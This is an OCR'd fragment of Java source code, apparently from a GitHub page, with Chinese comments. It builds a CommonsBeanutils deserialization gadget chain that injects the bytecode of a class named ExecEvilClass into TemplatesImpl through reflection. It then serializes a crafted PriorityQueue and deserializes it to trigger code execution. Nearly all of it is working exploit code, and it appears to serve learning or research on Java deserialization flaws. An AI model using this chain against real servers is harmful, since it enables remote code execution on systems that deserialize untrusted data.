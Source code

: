 ```java
        CommonsBeanutils commonsBeanutils = new CommonsBeanutils();
        commonsBeanutils.serialize();
        commonsBeanutils.unserialize();
    }

    public void serialize() throws Exception {
        byte[] classBytes = getBytes();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 反射实例化 java.util.Collections$ReverseComparator
        Class cls = Class.forName("java.util.Collections$ReverseComparator");
        Constructor constructor = cls.getDeclaredConstructor();
        constructor.setAccessible(true);
        Comparator reverseComparator = (Comparator) constructor.newInstance();

        // BeanComparator实例化
        BeanComparator beanComparator  = new BeanComparator<>("outputProperties", reverseComparator);

        PriorityQueue priorityQueue = new PriorityQueue<>(1);
        priorityQueue.add(1);
        priorityQueue.add(1);
        // 通过反射修改queue
        Object[] objectsArrary = new Object[]{templates,1};
        Field queue = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue.setAccessible(true);
        queue.set(priorityQueue,objectsArrary);
        // 通过反射将comparator修改为前面的链子
        Field comparator = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, beanComparator);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(priorityQueue);
    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/test/tool/ExecEvilClass.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
```
